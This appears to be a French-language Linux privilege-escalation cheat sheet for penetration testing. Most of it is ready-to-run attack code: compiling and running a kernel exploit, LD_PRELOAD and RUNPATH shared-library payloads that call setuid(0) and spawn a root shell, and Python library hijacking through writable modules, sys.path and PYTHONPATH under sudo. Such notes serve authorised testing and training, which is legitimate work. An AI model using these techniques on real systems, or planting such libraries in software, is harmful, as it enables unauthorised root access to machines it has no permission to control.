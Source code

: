 ### Kernel Exploits
> Exploiter des vulnérabilités du noyau Linux

```bash
# Vérifier la version du noyau
uname -a
cat /etc/lsb-release 

# Compiler un exploit
gcc kernel_exploit.c -o kernel_exploit
chmod +x kernel_exploit
./kernel_exploit
```
### Shared Libraries
> Exploiter le chargement de bibliothèques partagées

```bash
# Vérifier LD_PRELOAD dans sudo
sudo -l

# Créer une bibliothèque malveillante
cat << EOF > root.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/bin/bash");
}
EOF
gcc -fPIC -shared -o root.so root.c -nostartfiles

# Exécuter avec LD_PRELOAD
sudo LD_PRELOAD=/tmp/root.so [commande autorisée]
```
### Shared Object Hijacking
> Détourner des objets partagés (.so)

```bash
# Vérifier les bibliothèques utilisées par un binaire
ldd [binaire]

# Vérifier les chemins RUNPATH
readelf -d [binaire] | grep PATH

# Créer une bibliothèque malveillante
cat << EOF > src.c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>
void dbquery() {
    printf("Malicious library loaded\n");
    setuid(0);
    system("/bin/sh -p");
}
EOF
gcc src.c -fPIC -shared -o /chemin/vers/libshared.so
```
### Python Library Hijacking
> Détourner des bibliothèques Python pour élever les privilèges
#### Wrong Write Permissions
```bash
# Vérifier si des modules Python ont des permissions d'écriture incorrectes
grep -r "def virtual_memory" /usr/local/lib/python3.8/dist-packages/psutil/*
ls -l /usr/local/lib/python3.8/dist-packages/psutil/__init__.py

# Injecter du code malveillant dans une fonction
# Dans __init__.py:
def virtual_memory():
    import os
    os.system('/bin/bash')
    # Code original...
```
#### Library Path
```bash
# Vérifier les chemins Python
python3 -c 'import sys; print("\n".join(sys.path))'

# Créer une bibliothèque malveillante dans un chemin prioritaire
cat << EOF > /usr/lib/python3.8/psutil.py
#!/usr/bin/env python3
import os
def virtual_memory():
    os.system('/bin/bash')
EOF
```
#### PYTHONPATH Environment Variable
```bash
# Vérifier les droits sudo
sudo -l

# Créer un module malveillant
cat << EOF > /tmp/psutil.py
#!/usr/bin/env python3
import os
def virtual_memory():
    os.system('/bin/bash')
EOF

# Exécuter avec PYTHONPATH modifié
sudo PYTHONPATH=/tmp/ /usr/bin/python3 ./script.py
```